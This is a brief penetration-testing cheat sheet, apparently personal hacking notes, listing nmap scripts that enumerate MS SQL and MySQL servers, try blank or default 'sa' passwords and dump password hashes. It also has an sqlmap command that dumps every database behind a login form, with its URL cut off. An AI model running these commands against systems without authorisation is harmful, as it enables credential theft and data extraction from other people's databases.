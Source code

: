 ```yaml
---
tags: 🔻 🔻/Enumeration/sqlinjection
aliases: Hacking Notes
---
```


# MS SQL
  

nmap -vv -sV -Pn -p <> --script=ms-sql-info,ms-sql-config,ms-sql-dump-hashes --script-args=mssql.instance-port=1433,smsql.username-sa,mssql.password-sa

  

nmap -sV -Pn -vv --script=mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122


  
nmap -sV -Pn -vv -script=mysql\* $ip -p 3306

   

sqlmap -u '


--method POST --data 'txtLoginID=admin&txtPassword=aa&cmdSubmit=Login' --all --dump-all

      
  
mysql -u root -p -h x.x.x.x  

 
nmap -p 1433 --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER $ip
